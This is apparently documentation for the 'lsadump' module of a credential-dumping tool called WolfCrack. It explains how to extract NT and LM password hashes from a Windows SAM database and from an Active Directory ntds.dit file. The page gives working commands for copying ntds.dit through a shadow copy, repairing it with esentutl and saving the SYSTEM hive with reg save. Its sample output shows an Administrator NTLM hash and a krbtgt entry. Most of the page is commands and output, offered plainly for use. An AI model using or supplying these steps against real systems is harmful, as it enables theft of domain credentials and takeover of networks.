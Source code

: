 ## lsadump
This module is for retriving hashes from the current sam database or from an ntds file.
##### Features:
1) let you retrieve hashes from the current sam database.  
2) let you retrieve hashes from ntds.dit file.

### sam
Retrieve the hashes (nt and lm hash) of the users on the current server you are on (works with every windows version).
```
WolfCrack # lsadump::sam
[*] Successfuly impersonated

Domain:  WEBERDC

SysKey:  bb5050ffa20b87e9d488f5c9d5c5b6b7

SamKey:  0cd8ea15be5af089996d3e48491d0ede4d3b253b931409565c576eb1e79bec32

UserName: Administrator
Rid: 500
LmHash: 
NtHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: Guest
Rid: 501
LmHash: 
NtHash: 
[*] Successfully reverted
```
As you can see now we have the nt hash(also known as ntlm hash) of the **Administrator** user.

### ntds
Retrieve the hashes (nt and lm hash) of the users saved on the current ntds.dit file. (works with every windows server version)
##### Arguments:
1) ntds (path to the ntds.dit file) \[**required**\]  
if you don't have one get one like this:
```powershell
vssadmin create shadow /for=c:
# find the name of the shadow copy
copy.exe <shadow_copy_path>\windows\ntds.dit c:\users\ntds.dit
```
2) system (path to the system hive file of the server the ntds.dit file is from) \[**required**\]   
in order for this to work you need to get the files like that:  
1) the ntds.dit file, get however you want, but if it is damaged, you will need to repair it with the following command ``` esentutl /p <path_to_ntds_file> ```  
2) the system hive you **must** get with the following command ``` reg save HKLM\SYSTEM System.hiv ```  
```
WolfCrack # lsadump::ntds /ntds:"C:\Users\yuval_000\Desktop\ntds.dit" /system:"C:\Users\yuval_000\Desktop\SYSTEM"

UserName: Administrator
Rid: 500
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: WEBERDC
Rid: 1001
NtlmHash: 7bb16b7c77a30c947ac16a79f0b8a111

UserName: krbtgt
```